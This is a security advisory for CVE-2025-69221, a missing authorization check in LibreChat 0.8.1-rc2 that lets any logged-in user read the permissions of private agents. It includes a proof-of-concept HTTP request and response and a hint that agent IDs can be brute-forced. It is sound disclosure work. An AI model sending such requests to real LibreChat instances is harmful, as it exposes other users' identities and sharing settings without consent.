

# LibreChat Insufficient Access Control on Agent Permission Queries #

## Vulnerability Overview ##

LibreChat version 0.8.1-rc2 does not enforce proper access control when
querying agent permissions.

* **Identifier**            : SBA-ADV-20251203-02
* **Type of Vulnerability** : Incorrect Access Control
* **Software/Product Name** : [LibreChat](https://github.com/danny-avila/LibreChat)
* **Vendor**                : [LibreChat](https://www.librechat.ai/)
* **Affected Versions**     : 0.8.1-rc2
* **Fixed in Version**      : 0.8.2-rc2
* **CVE ID**                : CVE-2025-69221
* **CVSSv3 Vector**         : CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N
* **CVSSv3 Base Score**     : 4.3 (Medium)

## Vendor Description ##

> LibreChat is the ultimate open-source app for all your AI conversations,
> fully customizable and compatible with any AI provider — all in one sleek
> interface.

Source: <https://www.librechat.ai/>

## Impact ##

An authenticated attacker can read the permissions of arbitrary agents, even
if they have no permissions for this agent. The agent permissions include
individually assigned permissions to other users. The attacker must only know
the agent ID for conducting the attack.

## Vulnerability Description ##

LibreChat allows the configuration of agents that have a predefined set of
instructions and context. Each user can have different permissions for an
agent. Usually, agents are private and not shared with other users. These
private agents are not visible to other users. However, if an attacker knows
the agent ID, they can read the permissions of the agent including the
permissions individually assigned to other users.

## Proof of Concept ##

Our setup uses the default configuration, which allows users to create their
own agents and use their own or shared agents:


To show the issue an agent was defined as user `user-1.pentest@example.com`.
The permissions were left at the default options, so only the user
`user-1.pentest@example.com` has `Owner` permissions and others should not
even be able to see the agent:



When an attacker knows the internal agent ID `692f0b7453215d0f16ef33fd`, they
can query the agent permissions. The following HTTP communication shows this
as user `user-3.pentest@example.com` which has the role user:

```http
GET /api/permissions/agent/692f0b7453215d0f16ef33fd HTTP/1.1
Host: librechat.example.com
Authorization: Bearer eyJ[...].38rWUh8x3mnvpk2z26vE6_aKnoDnJkXnpco9ZQ78Ilo
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Connection: keep-alive
[...]

HTTP/1.1 200 OK
x-robots-tag: noindex
access-control-allow-origin: *
content-type: application/json; charset=utf-8
content-length: 366
etag: W/"16d-C9v1fOf6ioY2xnYl5MezOY7vqGk"
date: Wed, 03 Dec 2025 14:54:04 GMT
alt-svc: h3=":443"; ma=2592000
x-cache: Miss

{"resourceType":"agent","resourceId":"692f0b7453215d0f16ef33fd","principals":[{"type":"user","id":"6928402b7463247ff7f7d18e","name":"Pentest","email":"user-1.pentest@example.com","avatar":"/images/6928402b7463247ff7f7d18e/avatar-1764682044250.png?manual=true","source":"local","idOnTheSource":"6928402b7463247ff7f7d18e","accessRoleId":"agent_owner"}],"public":false}
```

The response shows that only `user-1.pentest@example.com` has owner
permissions and the agent is not shared. The internal agent ID is not fully
random, but generated in the following deterministic way as mentioned by the
MongoDB documentation [1]:

> The 12-byte ObjectId consists of:
>
> * A 4-byte timestamp, representing the ObjectId's creation, measured in
>   seconds since the Unix epoch.
> * A 5-byte random value generated once per client-side process. This random
>   value is unique to the machine and process. If the process restarts or the
>   primary node of the process changes, this value is re-generated.
> * A 3-byte incrementing counter per client-side process, initialized to a
>   random value. The counter resets when a process restarts.

Since other object IDs are known to the attacker, it seems realistic to find
at least some other valid agent IDs in a brute force search.

## Recommended Countermeasures ##

We recommend updating to LibreChat version 0.8.2-rc2 or later.

LibreChat should also check the permissions when querying the agent
permissions and deny it if the user does not have sufficient permissions to
manage the permissions of the agent.

## Timeline ##

* `2025-12-03` identification of vulnerability in version 0.8.1-rc2
* `2025-12-17` disclosed vulnerability to vendor
* `2025-12-17` initial vendor response
* `2025-12-29` vendor confirmed vulnerability
* `2025-12-29` GitHub assigned CVE-2025-69221
* `2026-01-07` vendor released fix in version 0.8.2-rc2
* `2026-01-07` public disclosure

## References ##

1. MongoDB Docs. Database Manual. ObjectId:
   <https://www.mongodb.com/docs/manual/reference/method/ObjectId/>
2. OWASP Web Security Testing Guide (WSTG) v4.2. Testing for Bypassing
   Authorization Schema:
   <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Bypassing_Authorization_Schema.html>
3. OWASP Application Security Verification Standard (ASVS) v5.0.0. V8.2
   General Authorization Design:
   <https://raw.githubusercontent.com/OWASP/ASVS/v5.0.0/5.0/OWASP_Application_Security_Verification_Standard_5.0.0_en.pdf>
4. OWASP Top 10. A01:2021 Broken Access Control:
   <https://owasp.org/Top10/A01_2021-Broken_Access_Control/>
5. Common Weakness Enumeration. CWE-862 Missing Authorization:
   <https://cwe.mitre.org/data/definitions/862.html>
6. Common Weakness Enumeration. CWE-284 Improper Access Control:
   <https://cwe.mitre.org/data/definitions/284.html>
7. GitHub Security Advisory:
   <https://github.com/danny-avila/LibreChat/security/advisories/GHSA-5ccx-4r3h-9qc7>
8. LibreChat Source Code. Commit 06ba025bd95574c815ac6968454be7d3b024391c.
   fix: Access Control on Agent Permission Queries:
   <https://github.com/danny-avila/LibreChat/commit/06ba025bd95574c815ac6968454be7d3b024391c>

## Credits ##

* Lisa Gnedt ([SBA Research](https://www.sba-research.org/))
* Michael Koppmann ([SBA Research](https://www.sba-research.org/))

The discovery of this vulnerability was made possible through support from
[CYSSDE](https://cyssde.eu/) and the European Union.


